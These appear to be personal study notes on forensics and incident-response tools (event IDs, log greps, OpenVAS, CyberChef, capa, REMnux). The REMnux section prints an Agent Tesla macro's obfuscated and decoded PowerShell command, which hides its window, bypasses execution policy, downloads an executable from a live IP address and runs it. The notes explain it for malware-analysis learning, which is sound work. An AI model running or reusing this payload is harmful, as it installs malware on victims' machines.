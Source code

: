 
### Links

- https://www.autopsy.com/
- https://www.toolwar.com/2014/01/dumpit-memory-dump-tools.html
- https://volatilityfoundation.org/


### Event viewer

#### Log codes:
Event ID 	Description
4624 		A user account successfully logged in
4625 		A user account failed to login
4634 		A user account successfully logged off
4720 		A user account was created
4724 		An attempt was made to reset an account’s password
4722 		A user account was enabled
4725 		A user account was disabled
4726 		A user account was deleted

### Logs in Linux

- `cat access.log`
-`cat access1.log access2.log > combined_access.log`
-`grep "192.168.1.1" access.log`
-`less access.log`
-`grep "GET" access.log`
-`grep "POST" access.log`


# SIEM


## openVAS

### installing OpenVAS
- `sudo apt install docker.io`
- `sudo docker run -d -p 443:443 --name openvas mikesplain/openvas`


### Running Openvas
- `docker start openvas`
- navigate to https://127.0.0.1 in a browser
- log in

## CyberChef

- link to run in browser: https://gchq.github.io/CyberChef/
- link to download: https://github.com/gchq/CyberChef/releases

#### operations area:
Operations 	Description 	Examples
From Morse Code 	Translates Morse Code into (upper case) alphanumeric characters. 	- .... .-. . .- - ... becomes THREATS when used with default parameters
URL Encode 	Encodes problematic characters into percent-encoding, a format supported by URIs/URLs. 	https://tryhackme.com/r/room/cyberchefbasics becomes https%3A%2F%2Ftryhackme%2Ecom%2Fr%2Froom%2Fcyberchefbasics when used with the parameter “Encode all special chars”
To Base64 	This operation encodes raw data into an ASCII Base64 string. 	This is fun! becomes VGhpcyBpcyBmdW4h
To Hex 	Converts the input string to hexadecimal bytes separated by the specified delimiter. 	This Hex conversion is awesome! becomes 54 68 69 73 20 48 65 78 20 63 6f 6e 76 65 72 73 69 6f 6e 20 69 73 20 61 77 65 73 6f 6d 65 21
To Decimal 	Converts the input data to an ordinal integer array. 	This Decimal conversion is awesome! becomes 84 104 105 115 32 68 101 99 105 109 97 108 32 99 111 110 118 101 114 115 105 111 110 32 105 115 32 97 119 101 115 111 109 101 33
ROT13 	A simple Caesar substitution cipher which rotates alphabet characters by the specified amount (default 13). 	Digital Forensics and Incident Response becomes Qvtvgny Sberafvpf naq Vapvqrag Erfcbafr


#### Recipe Area:

Save recipe: This feature allows the user to save selected operations.
Load recipe: Allows the user to load previously saved recipes.
Clear Recipe: This feature will enable users to clear the chosen recipe during usage.


#### Input Area

- Add a new input tab: This is where an additional tab is created for the user to use different values from the previous tab.

- Open folder as input: This feature allows users to upload a whole folder as input value.

- Clear input and output: This feature allows the user to clear any input values inserted and the corresponding output value.

- Reset pane layout: This feature brings the tool's interface to its default window sizes.


#### Output Area

- Save output to file: This feature allows the users to save the result into a .dat file.

- Copy raw output to the clipboard: This feature allows users to copy raw output directly to their clipboard, allowing them to quickly copy the results for use in other applications or documents.

- Replace input with output: This feature allows users to quickly overwrite the input data based on the operations' results.

- Maximise output pane: This feature brings the tool's interface to its default window sizes.




## CAPA

to run:
- PS C:\Users\Administrator\Desktop\capa> capa.exe .\cryptbot.bin

#### Flags:

Option 	Description 	Sample Syntax

-h or --help
	Show this help message and exit.
	

capa -h
-v or --verbose 	Enable verbose result document. 	capa.exe .\cryptbot.bin -v
-vv or --vverbose 	Enable a very verbose result document. 	capa.exe .\cryptbot.bin -vv 




# REMnux

- `oledump.py agenttesla.xlsm`

	displays: `A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
`

- `oledump.py agenttesla.xlsm -s 4`

	displays: hex dump of file

- `oledump.py agenttesla.xlsm -s 4 -vbadecompress`

	displays: more readable format
		- `Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")`


![[Pasted image 20250415093239.png]]
``"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"``

So, in PowerShell, running the -WindowStyle parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, hidden means that the PowerShell window won’t be visible to the user.
    By default, PowerShell restricts script execution for security reasons. The -executionpolicy parameter allows you to override this policy. The bypass means that the execution policy is temporarily ignored, allowing any script to run without restriction.
    The Invoke-WebRequest is commonly used for downloading files from the internet.
        The -Uri Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource Doc-3737122pdf.exe from http://193.203.203.67/rt/.
        The -OutFile specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
    The Start-Process is used to execute the downloaded file that is stored in $TempFile after the web request.

To summarize, when the document agenttesla.xlsm is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named Doc-3737122pdf.exe from http://193.203.203.67/rt/, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (Doc-3737122pdf.exe). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!